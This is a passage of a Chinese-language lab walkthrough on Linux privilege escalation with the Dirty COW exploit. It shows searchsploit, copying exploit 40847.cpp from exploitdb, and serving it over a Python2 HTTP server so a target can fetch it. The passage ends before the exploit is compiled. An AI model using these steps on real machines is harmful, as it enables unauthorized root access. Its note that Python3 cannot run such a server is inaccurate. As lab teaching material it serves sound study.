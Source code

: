 ```
uname -a
```

![image-20220228131612586](https://gitee.com/xxb667/img/raw/master/img/image-20220228131612586.png)

# 3. 提权

## 3.1 利用脏牛提权

用Kali 自带的漏洞搜索有无能进行脏牛提权的shell：

```
searchsploit dirty
```

![image-20220228132438851](https://gitee.com/xxb667/img/raw/master/img/image-20220228132438851.png)

**开启临时服务器**

- 将40847.cpp文件复制到当前目录下
- 并且利用 python2 -m SimpleHTTPServer 1234 
- 开启临时的建议服务器

**注意事项**：

- 因此使用Python2时要特别注明，
- 如果没安装Python3则不用特殊注明，
- Python3无法利用该方法开启简易服务器，
  - 另外，开启服务器后默认的访问目录
    - 为当前开启服务器的目录，
    - 即我在 **~/桌面** 这个目录下，
    - 则在浏览器中访问的话则默认能看 **~/桌面** 目录下的文件。

## 3.2 对40847文件的操作

查找40847.cpp文件

```
find / -name 40847.cpp
```

拷贝40847.cpp文件

把文件复制到要定义的服务目录下

```
cp /usr/share/exploitdb/exploits/linux/local/40847.cpp  /home/xxb1/
```

![image-20220228134343291](https://gitee.com/xxb667/img/raw/master/img/image-20220228134343291.png)

使用下面命令时，要在

```
/home/xxb1/        目录下使用
```

